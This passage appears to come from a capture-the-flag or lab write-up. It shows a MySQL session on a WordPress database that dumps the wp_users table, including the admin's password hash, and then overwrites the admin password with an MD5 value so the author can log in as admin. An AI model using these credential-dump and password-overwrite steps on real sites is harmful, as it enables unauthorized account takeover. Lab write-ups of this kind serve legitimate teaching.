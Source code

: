 	| wp_terms              |
	| wp_usermeta           |
	| wp_users              |
	+-----------------------+
	15 rows in set (0.24 sec)

And we have access to the users database

	mysql> select * from wp_users
	    -> ;
	+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
	| ID | user_login | user_pass                          | user_nicename | user_email      | user_url | user_registered     | user_activation_key | user_status | display_name |
	+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
	|  1 | admin      | $P$BvkkW.uullc1LFnJTGdSGkAXayYlaX0 | admin         | you@example.com |          | 2019-02-27 04:27:50 |                     |           0 | admin        |
	+----+------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+--------------+
	1 row in set (0.31 sec)

Password is hashed, but since we have access to database, we can change it to our own

	mysql> UPDATE `wp_users` SET `user_pass` = MD5('derp') WHERE `user_login` = 'admin';

Finally, we can login to Wordpress using `admin:derp` and it is successful...

![screenshot1.png](screenshot1.png)

